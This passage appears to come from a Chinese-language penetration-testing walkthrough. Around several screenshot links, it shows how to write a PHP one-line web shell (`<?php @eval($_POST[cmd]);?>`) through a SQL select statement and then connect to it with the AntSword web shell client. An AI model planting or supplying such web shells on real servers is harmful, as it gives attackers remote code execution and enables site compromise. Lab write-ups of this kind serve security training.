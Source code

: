 ![image-20220120232935354](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202148732.png)

###### **写入shell一句话马**

执行 `select "&lt;?php @eval（$_POST[cmd]）;?>"` 

![image-20220120234031183](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202148562.png)

![image-20220121002158042](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202148255.png)

蚁剑连接
